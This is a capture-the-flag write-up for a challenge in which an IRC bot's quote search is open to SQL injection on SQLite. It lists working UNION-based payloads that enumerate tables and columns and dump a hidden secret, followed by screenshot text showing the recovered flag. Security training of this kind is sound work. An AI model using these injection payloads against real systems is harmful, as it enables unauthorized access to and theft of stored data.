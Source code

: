 # Old
> When the art of quoting is being dominated, the old secrets are brought to the light.

## About the Challenge
There is a bot called `BotServ` which has many functions, such as being able to search for quotes, being able to display quotes, etc.


[Image extracted text: BotServ
BotServ allows you
to have
bot
on
your
own channel -
BotServ
It has been created for
users that can
t host
or
BotServ configure a bot,
or
for
use
on
networks that don't
BotServ
allow user bots_
Available commands
are listed
BotServ
below;
to
use
them,
type /msg BotServ
command 
For
BotServ
more information
on
a
specific command,
type
BotServ
Imsg
BotServ
HELP
command 
BotServ
HELP
Displays this list and give information about commands
BotServ
QUOTES
Random Haxor Quotes
BotServ
BotServ
Bot will join
a
channel whenever there is
at least
BotServ
1
user(s)
on
it_]


## How to Solve?
There is a search feature in the `BotServ` bot where this function is vulnerable to SQL injection on SQLite database. Here is the query I used to extract the table name, the column, and also the data

Extract table name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/group_concat(tbl_name)/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/and/**/tbl_name/**/NOT/**/like/**/'sqlite_%'/**/limit/**/1/**/offset/**/1--
```


[Image extracted text: 07:14
<Test>
Hola
QUOTES SEARCH
')/**/union/**/SELECT/**/group_concat(tbl_name)/**/FROM**/sqlite_master/**/WHERE/**/type-'table' /**/and/**/tbl_name/**/NOT/**/like/**/'sqli
te_%' /**/limit/**/1/**loffset/**/1-
07:14
<Test>
BotServ
Random quotes matching your query: quotes,old_secrets,new_secrets]


Extract column name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/GROUP_CONCAT(name)/**/AS/**/column_names/**/FROM/**/pragma_table_info('old_secrets')/**/LIMIT/**/1/**/OFFSET/**/1--
```


[Image extracted text: 07:12
<Test>
Hola QUOTES SEARCH
3/**/union/**/SELECT/**/GROUP_CONCAT(name)/**/AS/**/column_names/**/FROW**/pragma_table_info( 'old_secrets' )/**/LIMIT/**/1/**/OFFSET/**/1--
1**/ -
07:12
<Test>
BotServ
Random quotes matching
query: id,secret
your]


Extract data
```
/msg BotServ QUOTES SEARCH ')/**/union/**/select/**/secret/**/from/**/old_secrets/**/limit/**/1/**/offset/**/5--
```

The flag was found in the `secret` column inside the `old_secrets` table


[Image extracted text: 07:10
<Test>
Hola QUOTES SEARCH
)/**/union/**/select/**/secret/**/fron/**/old_secrets/**/limit/**/1/**/offset/**/5--
07:10
<Test>
BotServ
Random quotes matching your
query:
EKO{s3cr3tzzzzz}]


```
EKO{s3cr3tzzzzz}
```